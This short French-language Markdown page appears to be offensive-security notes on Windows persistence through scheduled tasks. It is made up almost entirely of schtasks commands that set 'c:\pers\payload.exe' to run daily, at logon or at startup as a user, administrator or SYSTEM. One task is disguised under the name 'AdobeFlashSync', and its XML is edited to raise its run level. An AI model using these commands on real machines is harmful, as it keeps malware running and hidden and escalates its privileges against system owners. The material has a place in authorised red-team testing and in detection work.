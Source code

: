 # Scheduled Task

Elle consiste a effectuer des taches planifier en tant que un utilisateur particulier


- En tant que `Utilisateur`

```sh
schtasks /create /tn "Mytasks\go" /sc daily /st 09:00 /tr "c:\pers\payload.exe"
```

```sh
# Information sur la tache
schtasks /query /tn "mytasks\go" /fo:list /v

# Demarrer la taches
schtasks /run /tn "mytasks\go"
```


- En tant que `Administrateur`

```sh
schtasks /create /sc onlogon /tn "AdobeFlashSync" /tr "c:\pers\payload.exe"
```

```sh
# Information sur la tache
schtasks /query /tn "AdobeFlashSync" /fo list

# Recuperer la tache en fichier XML
schtasks /query /tn "AdobeFlashSync" /xml 
schtasks /query /tn "AdobeFlashSync" /xml > tsk.xml
```

Maintenant ajouter **`<RunLevel>HighestAvailable</RunLevel>`** dans le fichier `tsk.xml` juste en bas de `<LogonType>InteractiveToken</LogonType>`

```sh
schtasks /delete /f /tn "AdobeFlashSync"
schtasks /create /tn "AdobeFlashSync" /xml tsk.xml
```

- En tant que `AUTORITER NT\SYSTEM`

```sh
schtasks /create /RU SYSTEM /SC onstart /TN "PERSIST" /TR "c:\pers\payload.exe"
```

